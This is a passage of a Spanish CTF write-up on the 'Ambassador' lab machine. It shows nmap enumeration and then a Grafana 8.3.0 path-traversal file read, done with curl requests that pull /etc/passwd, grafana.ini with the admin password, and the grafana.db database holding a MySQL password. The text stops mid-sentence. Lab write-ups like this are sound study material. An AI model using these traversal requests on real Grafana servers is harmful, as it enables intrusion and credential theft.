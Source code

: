 ```yaml
---
title: 'CTF - Ambassador WriteUp'
date: '2023-01-01'
tags: ["Grafana", "Git", "Rce", "Lfi", "CTF", "Directory Path Traversal"]
draft: true
authors: ['default']
summary: '![](/static/images/uploads/ctf-ambassador-writeup/Ambassador.webp)'
---
```


![](/static/images/uploads/ctf-ambassador-writeup/Ambassador.webp)

Esta máquina ha sido una que me ha gustado mucho. Sobre todo la primera parte hasta llegar a la escalada de privilegios.

Enumeración
-----------


```
 nmap -p- -sCV -vvv --min-rate 5000 -oG allPorts 10.10.11.183

# Output
[*] Open ports: 22,80,3000,3306
```
Si analizamos concretamente los puertos expuestos, nos encontramos con la siguiente información.


```
 nmap -p22,80,3000,3306 -vvv -sCV 10.10.11.183 -oN targeted

# Output
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 29:dd:8e:d7:17:1e:8e:30:90:87:3c:c6:51:00:7c:75 (RSA)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Hugo 0.94.2
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Ambassador Development Server
3000/tcp open  ppp?    syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 01 Jan 2023 19:33:04 GMT
|     Content-Length: 29
|     href="/login"Found.
3306/tcp open  mysql   syn-ack MySQL 8.0.30-0ubuntu0.20.04.2
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 15
|   Capabilities flags: 65535

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Tenemos el puerto de *SSH*, lo que parece un s*ervidor web* típico en el puerto 80, algo desconocido en el puerto 3000 y una base de datos *MySQL* en el puerto 3306.

Local File Inclusion
--------------------

Como me corroe la curiosidad, empiezo por el puerto 3000 y me encuentro Grafana instalado.

![](/static/images/uploads/ctf-ambassador-writeup/image.webp)

Una búsqueda rápida en searchsploit me devuelve una vulnerabilidad para las versiones de Grafana anteriores a la versión 8.3.


```
 searchsploit grafana 8.3
---------------------------------------------------------------------------
 Exploit Title                                               |  Path
---------------------------------------------------------------------------
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read  |    multiple/webapps/50581.py
---------------------------------------------------------------------------
```
Examinando un poco el exploit, vemos que podemos provocar un LFI con un simple comando de CURL.


```
 curl --path-as-is http://10.10.11.183:3000/public/plugins/logs/../../../../../../../../../../../../../etc/passwd

# Output
root:x:0:0:root:/root:/bin/bash
...
developer:x:1000:1000:developer:/home/developer:/bin/bash
...
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```
Buscando un poco por archivos que pueden resultarnos de interés en este caso, examinamos el archivo de configuración de Grafana almacenado en */etc/grafana/grafana.ini*.


```
 curl --path-as-is http://10.10.11.183:3000/public/plugins/logs/../../../../../../../../../../../../../etc/grafana/grafana.ini

# Output
...
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
...
```
Con esas credenciales, podemos entrar directamente al panel de Grafana. En él, vemos que hay una base de datos MySQL configurada, pero no podemos ver sus credenciales. Además de eso, no hay mucho más que podamos hacer por esa vía. Otra ruta de interés es */var/lib/grafana/grafana.db.*

![](/static/images/uploads/ctf-ambassador-writeup/image-1.webp)

Mysql configurado en GrafanaEsta ruta contiene una base de datos *sqlite,* donde se almacenan los Dashboards configurados. Con el siguiente comando nos descargamos la base de datos.


```
curl --path-as-is http://10.10.11.183:3000/public/plugins/logs/../../../../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
100  644k  100  644k    0     0   529k      0  0:00:01  0:00:01 --:--:--  529k
```
Y empezamos a mirar cosas:


```
 sqlite3 grafana.db
sqlite .tables
...          
data_source                 test_data                 
...
sqlite select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-01-01 19:26:31|0|{}|1|uKewFgM4z
```
Llegado a este punto, probamos a 

